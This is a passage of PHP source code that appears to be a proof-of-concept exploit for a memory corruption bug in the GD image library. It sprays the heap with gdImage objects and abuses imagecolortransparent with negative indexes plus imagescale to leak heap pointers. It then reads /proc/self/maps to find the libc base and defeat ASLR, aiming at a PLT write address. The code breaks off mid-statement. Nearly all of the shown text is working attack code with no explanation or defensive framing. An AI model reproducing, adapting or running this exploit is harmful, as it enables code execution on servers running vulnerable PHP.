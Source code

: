 ```
$plt_write = 0x89693a4;

function get_maps() {
        $fh = fopen("/proc/self/maps", "r");
        $maps = fread($fh, 31337);
        fclose($fh);
        return explode("\n", $maps);
}

// Fill heap with nulled basic gdImage structures
$imgs = array();
for ($i = 0; $i < 10; $i++) $imgs[$i] = imagecreatetruecolor(10, 10);

// Image with enough width to reach plt_write address
$evilimg = imagecreatetruecolor($plt_write + 10, 1);

// Set brush at last gdImage to leak evilimg address
imagesetbrush ($imgs[9], $evilimg);

// -516 : offset to reach **evilimg->pixels pointer
imagecolortransparent($evilimg, -516);
imagetruecolortopalette($evilimg, TRUE, 3);

// Data leak from **evilimg->pixels address trough imagescale bug 
$imgtmp = imagescale($evilimg, 10, 10);
$x1 = imagecolortransparent($imgtmp);
echo "[+] pointer to colors @ 0x".dechex($x1)."\n";


// Restore truecolor evilimg
imagepalettetotruecolor($evilimg);

// -1443 offset to reach brush pointer from img[9] element
imagecolortransparent($evilimg, -1443);

// Data leak from img[9]->brush pointer = evilimg address
imagetruecolortopalette($evilimg, TRUE, 3);
$imgtmp2 = imagescale($evilimg, 10, 10);
$x2 = imagecolortransparent($imgtmp2);

echo "[+] pointer to image @ 0x".dechex($x2)."\n";

// Relative offset to reach first element from **evilimg->pixels (row 1 from image)
$off = -1 * ((($x2 - $x1) / 4) + 1550);
echo "[+] offset @ " . $off ."\n";

// Restore truecolor evilimg
imagepalettetotruecolor($evilimg);

// Set to null first element from evilimg->pixels
imagecolortransparent($evilimg, $off);
imagetruecolortopalette($evilimg, TRUE, 256);
imagecolortransparent($evilimg, 0xff);

// Bypass ASLR
$libc_base = 0;
foreach (get_maps() as $record)
        if (strstr($record, "libc-") && strstr($record, "r-xp")) {
               $libc_base = hexdec(explode('-', $record)[0]);
                break;
        }

if ($libc_base == 0)
```